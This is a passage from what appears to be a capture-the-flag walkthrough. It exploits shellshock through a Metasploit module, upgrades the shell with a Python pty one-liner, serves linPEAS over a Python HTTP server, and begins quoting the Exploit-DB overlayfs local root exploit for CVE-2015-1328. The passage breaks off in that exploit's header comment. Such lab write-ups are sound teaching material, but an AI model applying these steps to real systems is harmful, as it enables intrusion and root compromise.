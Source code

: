 Looks like this box is vulnerable to `shellshock`, which essentially causes the bash shell to run commands from environment variables unintentionally. Fortunately for us, there is a Metasploit module for this called `apache_mod_cgi_bash_env_exec`.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691130530225/61069132-5427-411d-be6e-73cbfc691595.png align="center")

Configure and run it.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691130540175/a983307a-ab96-4e24-ac8d-fa6d482c04fd.png align="center")

Keep in mind that the `TARGETURI` of `/cgi-bin/test.cgi` was identified in our `Nikto` scan. Now that we have a meterpreter session, let's drop into a shell and look for our first flag. But first, let's make this shell better:

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691130560215/7e80b5a9-8705-47e6-8a65-0e91abec7079.jpeg align="center")

### Step 4: linPEAS

Now on to elevating privileges to get the root flag. We'll enumerate using `linPEAS`.

Start python server:

```bash
python3 -m http.server 8000
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691130586704/f1949b67-1de1-4ded-a3e8-9437915c2d52.png align="center")

Upload binary, set permissions, and run.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691130595584/3ae31ca2-1211-4e6a-8820-87b153ff9fae.png align="center")

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691130600528/595d72ef-4b04-4817-96ca-8e5779ea813a.png align="center")

Oof, the Linux version has a vulnerability with `overlayfs` improperly handling permissions and can be exploited to elevate privileges.

### Step 5: Privesc and Root

Exploit (Source: [https://www.exploit-db.com/exploits/37292](https://www.exploit-db.com/exploits/37292)):

```c
/*
# Exploit Title: ofs.c - overlayfs local root in ubuntu
# Date: 2015-06-15
# Exploit Author: rebel
# Version: Ubuntu 12.04, 14.04, 14.10, 15.04 (Kernels before 2015-06-15)
# Tested on: Ubuntu 12.04, 14.04, 14.10, 15.04
# CVE : CVE-2015-1328     (http://people.canonical.com/~ubuntu-security/cve/2015/CVE-2015-1328.html)

*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*
CVE-2015-1328 / ofs.c
overlayfs incorrect permission handling + FS_USERNS_MOUNT

user@ubuntu-server-1504:~$ uname -a
Linux ubuntu-server-1504 3.19.0-18-generic #18-Ubuntu SMP Tue May 19 18:31:35 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
user@ubuntu-server-1504:~$ gcc ofs.c -o ofs
user@ubuntu-server-1504:~$ id
uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),30(dip),46(plugdev)
user@ubuntu-server-1504:~$ ./ofs
```